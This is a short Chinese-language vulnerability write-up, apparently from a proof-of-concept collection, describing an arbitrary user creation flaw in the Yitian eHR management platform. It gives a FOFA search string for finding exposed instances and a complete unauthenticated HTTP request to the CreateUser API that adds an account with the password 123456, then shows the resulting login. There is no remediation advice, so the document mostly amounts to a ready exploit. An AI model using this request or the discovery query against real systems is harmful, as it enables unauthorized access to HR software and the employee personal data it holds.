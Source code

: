 # 易天智能eHR管理平台任意用户添加漏洞

# 一、漏洞简介
温州市易天信息科技有限公司主要经营易天人力资源管理软件，是一家致力于人力资源管理软件产品研发的高科技公司。易天智能eHR管理平台任意用户添加漏洞。

# 二、影响版本
+ 易天智能eHR管理平台

# 三、资产测绘
+ fofa`body="易天智能eHR管理平台"`
+ 特征

![1718096150529-b6101510-1a4e-42f4-9b0a-38dbbaf92413.png](./img/7NhBaRDdWCQjtuoK/1718096150529-b6101510-1a4e-42f4-9b0a-38dbbaf92413-675308.png)

# 四、漏洞复现
```java
GET /BaseManage/UserAPI/CreateUser?Account=stc&Password=123456&OuterID=888 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Connection: close
Priority: u=1
```

![1718096186064-dd4d0eb4-c477-44e1-ac5e-17c9af82501e.png](./img/7NhBaRDdWCQjtuoK/1718096186064-dd4d0eb4-c477-44e1-ac5e-17c9af82501e-082644.png)

```java
stc/123456	
```

![1718096231861-03ab519f-7e9b-4e3e-badb-83c3623f1bcd.png](./img/7NhBaRDdWCQjtuoK/1718096231861-03ab519f-7e9b-4e3e-badb-83c3623f1bcd-006610.png)



> 更新: 2024-06-23 23:42:48  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bub8xu5moq1cvagp>